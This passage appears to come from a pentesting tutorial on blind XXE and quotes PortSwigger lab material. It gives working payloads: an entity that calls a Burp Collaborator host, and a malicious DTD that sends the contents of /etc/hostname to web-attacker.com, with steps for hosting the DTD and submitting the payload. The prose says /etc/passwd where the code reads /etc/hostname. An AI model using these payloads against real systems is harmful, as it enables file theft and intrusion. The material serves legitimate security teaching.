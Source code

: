```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### "Blind" SSRF - Exfiltrate data out-of-band

**In this occasion we are going to make the server load a new DTD with a malicious payload that will send the content of a file via HTTP request \(for multi-line files you could try to ex-filtrate it via** _**ftp://**_**\). This explanation as taken from** [**Portswiggers lab here**](https://portswigger.net/web-security/xxe/blind)**.**

An example of a malicious DTD to exfiltrate the contents of the `/etc/hostname` file is as follows:

```markup
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
* Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
* Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:  
`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

### Error Based\(External DTD\)

**In this case we are going to make the server loads a malicious DTD that will show the content of a file inside an error message \(this is only valid if you can see error messages\).** [**Example from here.**](https://portswigger.net/web-security/xxe/blind)
